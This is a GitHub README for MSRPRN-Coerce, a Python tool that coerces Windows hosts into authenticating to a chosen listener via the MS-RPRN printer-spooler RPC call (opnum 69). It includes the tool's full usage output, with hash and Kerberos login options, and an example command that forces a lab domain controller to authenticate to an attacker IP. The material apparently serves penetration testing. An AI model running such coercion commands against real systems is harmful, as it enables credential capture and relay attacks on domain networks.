

# MSRPRN-Coerce

<p align="center">
    A python script to force authentification using MS-RPRN RemoteFindFirstPrinterChangeNotificationEx function (opnum 69).
    <br>
    
    
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"></a>
    <br>
</p>



## Features

**Requires**: A valid username and password on the domain.

 - [x] Force authentification using MS-RPRN `RemoteFindFirstPrinterChangeNotificationEx` function (opnum 69).
 - [x] 🐍 Python 3 and Python 2 compatibility.
 - [x] Targets either a single IP or a range of IPs.

## Usage

```
$ ./MS-RPRN-Coerce.py -h
MS-RPRN-Coerce v1.1 - by @podalirius_

usage: e.py [-h] [-v] [--dc-ip ip address] [-d DOMAIN] [-u USER] [--target-ip ip address] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key] [-k]
            listener target

Force authentification using MS-RPRN RemoteFindFirstPrinterChangeNotificationEx function (opnum 69).

positional arguments:
  listener              IP address or hostname of listener.
  target                IP address or hostname of target.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbose mode. (default: False)

authentication & connection:
  --dc-ip ip address    IP Address of the domain controller or KDC (Key Distribution Center) for Kerberos. If omitted it will use the domain part (FQDN) specified in the
                        identity parameter
  -d DOMAIN, --domain DOMAIN
                        (FQDN) domain to authenticate to
  -u USER, --user USER  user to authenticate with
  --target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name or
                        Kerberos name and you cannot resolve it

  --no-pass             Don't ask for password (useful for -k)
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH
                        NT/LM hashes, format is LMhash:NThash
  --aes-key hex key     AES key to use for Kerberos Authentication (128 or 256 bits)
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from .ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it
                        will use the ones specified in the command line
```

## Example

To force `DC01.LAB.local` to authenticate over SMB to your attacker IP `192.168.2.51`:

```
./MS-RPRN-Coerce.py 192.168.2.51 DC01.LAB.local -u user1 -p 'Lab123!'
```

## Technical detail

This attack performs an RPC call of the `RpcRemoteFindFirstPrinterChangeNotificationEx` function (opnum 69) in the SMB named pipe `\pipe\spoolss` through the `IPC$` share to force authentication from a target machine to another.

## Demo

https://user-images.githubusercontent.com/79218792/155523928-6614ba1f-13c0-4bfc-8f42-05ef78c1e905.mp4

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.
